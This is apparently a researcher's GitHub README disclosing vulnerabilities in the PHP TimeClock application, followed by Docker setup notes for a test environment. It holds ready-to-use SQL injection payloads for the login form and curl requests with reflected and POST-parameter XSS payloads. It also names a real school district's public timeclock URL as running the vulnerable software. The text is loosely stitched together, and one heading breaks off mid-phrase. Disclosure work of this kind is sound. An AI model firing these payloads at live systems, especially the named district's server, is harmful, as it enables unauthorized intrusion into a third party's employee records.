

# PHP TimeClock Vulnerabilities 

This repository contains details on several vulnerabilities I found in the [PHP TimeClock](http://timeclock.sourceforge.net/) application. 


# Multiple SQL Injections (Time-Based Blind & Boolean-Based Blind)

```
Parameter: login_userid (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: login_userid=foo' RLIKE (SELECT (CASE WHEN (1542=1542) THEN 0x666f6f ELSE 0x28 END))-- QYSb&login_password=pass

    Type: time-based blind
    Title: MySQL < 5.0.12 AND time-based blind (heavy query)
    Payload: login_userid=foo' AND 7130=BENCHMARK(5000000,MD5(0x6c716b4c))-- frgB&login_password=pass
``` 


## Reflected Cross-Site Scripting Vulnerabilities via GET request 

Several resources are is vulnerable to reflective cross-site scripting via appending any payload to the end of the URL GET request. The payload should be preceeded with a single quote and greater than symbol. Vulnerable resources include, 

+ /login.php
+ /timeclock.php
+ /reports/audit.php
+ /reports/timerpt.php

```
curl -i -s -k -X $'GET' \
    -H $'Host: localhost' -H $'Upgrade-Insecure-Requests: 1' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' -H $'Connection: close' \
    $'http://localhost/login.php/\'%3E%3Csvg/onload=alert%60xss%60%3E'
```

*payload*: http://localhost/login.php/'%3E%3Csvg/onload=alert%60xss%60%3E%3C  

  

## Multiple Cross-Site Scripting via post parameters in /reports/total_hours.php, reports/timerpt.php, and reports/audit.php


The resources located at /reports/total_hours.php, reports/timerpt.php, and reports/audit.php are vulnerable to cross site scripting in the from_date,to_date post parameters.



```
curl -i -s -k -X $'POST' \
    -H $'Host: localhost' -H $'Content-Length: 242' -H $'Cache-Control: max-age=0' -H $'sec-ch-ua: \" Not A;Brand\";v=\"99\", \"Chromium\";v=\"90\"' -H $'sec-ch-ua-mobile: ?0' -H $'Upgrade-Insecure-Requests: 1' -H $'Origin: http://localhost' -H $'Content-Type: application/x-www-form-urlencoded' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' -H $'Sec-Fetch-Site: same-origin' -H $'Sec-Fetch-Mode: navigate' -H $'Sec-Fetch-User: ?1' -H $'Sec-Fetch-Dest: document' -H $'Referer: http://localhost/reports/total_hours.php' -H $'Accept-Encoding: gzip, deflate' -H $'Accept-Language: en-US,en;q=0.9' -H $'Connection: close' \
    -b $'PHPSESSID=deabe86d43dc8a946b4f9a20639bc0ad' \
    --data-binary $'date_format=M%2Fd%2Fyyyy&office_name=foo&group_name=foo+group&user_name=foo&from_date=5%2F6%2F2021\'><svg/onload=alert`xss`>&to_date=5%2F6%2F2021&csv=0&tmp_paginate=1&tmp_show_details=1&tmp_display_ip=1&tmp_round_time=0&submit.x=23&submit.y=10' \
    $'http://localhost/reports/total_hours.php'
```


# Stored Cross Site Scripting in

This repository was my attempt at dockerizing the 2006 [PHP TimeClock](http://timeclock.sourceforge.net/) application. It uses an adapted version of [rodvlopes/php4-mysql4-apache2.2-docker](https://github.com/rodvlopes/php4-mysql4-apache2.2-docker) to manage setting up legacy versions of php,mysql, and apache which are required in php timeclock due to several deprecated functions. 


## Installation   

1) Clone the repo   `git clone https://github.com/tcbutler320/php-timeclock-docker`
2) cd into the docker folder `cd php-timeclock-docker/docker`
3) build docker image `docker build -f Dockerfile.ubuntu -t timeclock .`
4) Run the image `docker run -d --name timeclock --restart=always -p 80:80 -v ./data:/usr/local/mysql/var -v ./timeclock-1.04:/usr/local/apache2/htdocs timeclock`

> For now, the rest of the instructions will only be for Docker Desktop. I'll later script this out in the docker build so that it can be done automatically 

5) Using docker desktop, open the cli for the container 
6) open a mysql shell `mysql -u root -p`, using password IAmroot
7) create the timeclock database `create database timeclock;`
8) exit the mysql shell
9) populate the database with the sql file `mysql -u root -p timeclock < /usr/local/apache2/htdocs/create_tables.sql`


## Resources 
southcentralunified

http://timeclock.southcentralunified.org/timeclock.php


## Vulnerability Disovered

The southcentralunified school district is using an externally facing employee timeclock application, running a decades old PHP version (3.3) and a time management software last updated in 2006 (php-timeclock). 


## Set up Test Enviorment 

https://www.linuxquestions.org/questions/programming-9/error-compiling-php-5-2-i-know-very-old-dereferencing-pointer-to-incomplete-type-4175462232/


### Server Setup 

1) wget -c http://museum.php.net/php5/php-5.3.3.tar.gz
2) gunzip php-5.3.3.tar.gz
3) tar -xvf php-5.3.3.tar
4) cd php-5.3.3/
5) apt-get install build-essential
6) sudo apt-get install libxml2-dev
7) ./configure --prefix=$HOME/local
8) make
9) make install


## Dockerizing the PHP TimeClock Application 

> Several issues arose when trying to launch a test enviorment due to the extremly old versions of php and mysql that were last tested on the application. To get around this, a few modifications must be made 


## MySQL 

1) Changing the MySQL table structure

The MySQL table defined in the original create_tables.sql file uses several table and column names with 'group'. This has become a reserved name in MySQL, and therefore all instances of group must be changed to grp in order to import into the MySQL server

2) The earliest dockerized version of MySQL only allows `bigint` with precision up to 6, so this must be changed from the original 14   

`#1426 - Too-big precision 14 specified for 'timestamp'. Maximum is 6.`


## PHP


1) Changing the PHP mysqli_connect function call 

The original 1.03 application uses the mysqli_connect function to communicate to the database. Unfortunately, this was depricated in PHP 5.5.5, and the earliest version of PHP which is dockerized is 5.7. To get around this, we must change the sql function to mysql_connnect. 


## options 

https://github.com/rodvlopes/php4-mysql4-apache2.2-docker


## Installing PHP From Source, Solved 

> https://forums.centos.org/viewtopic.php?t=53046